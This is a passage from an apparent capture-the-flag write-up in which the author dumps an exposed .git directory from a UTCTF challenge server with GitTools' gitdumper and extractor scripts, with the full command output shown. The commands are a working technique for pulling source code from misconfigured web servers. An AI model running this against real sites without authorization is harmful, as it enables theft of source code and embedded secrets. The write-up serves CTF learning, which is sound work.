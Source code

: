 ```
Finished
===============================================================
```

With my knowledge on `.git` forensics, GitTools can be used to dump the `.git` folder and extract objects from it.

```
└─$ bash gitdumper.sh http://puffer.utctf.live:8549/.git/ ~/Desktop/bin               
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating /home/kali/Desktop/bin/.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[-] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[-] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/e2/a975aa4dc20fd279591267b64617f73ede199e
[+] Downloaded: objects/bb/a639202cd2e6228b65a4d20bf0e9c38dd4e479
[+] Downloaded: objects/9d/525e298e3b9fc70c9e8110b593c65c8b897361
[+] Downloaded: objects/d6/cebe17a2ef4c5eec1f7ee1ed1b77d9a66be79c
[+] Downloaded: objects/73/f3e2181302f0aef5da05ae4f4948aba58ebded
[+] Downloaded: objects/45/0b6bb9e3944e09e345348840a0311e7b70e2e0
[+] Downloaded: objects/9c/8220f43c7c86d4b7d284c42c9cd515f15e79c8
[+] Downloaded: objects/1d/2961fb02140ea819212ac081b0291c323fd056

└─$ bash extractor.sh ~/Desktop/bin/ ~/Desktop/bin                     
###########
# Extractor is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances. 
# Only for educational purposes!
###########
[+] Found commit: e2a975aa4dc20fd279591267b64617f73ede199e
[+] Found file: /home/kali/Desktop/bin/0-e2a975aa4dc20fd279591267b64617f73ede199e/documentation.html
[+] Found file: /home/kali/Desktop/bin/0-e2a975aa4dc20fd279591267b64617f73ede199e/index.html
[+] Found file: /home/kali/Desktop/bin/0-e2a975aa4dc20fd279591267b64617f73ede199e/links.html
[+] Found commit: bba639202cd2e6228b65a4d20bf0e9c38dd4e479
```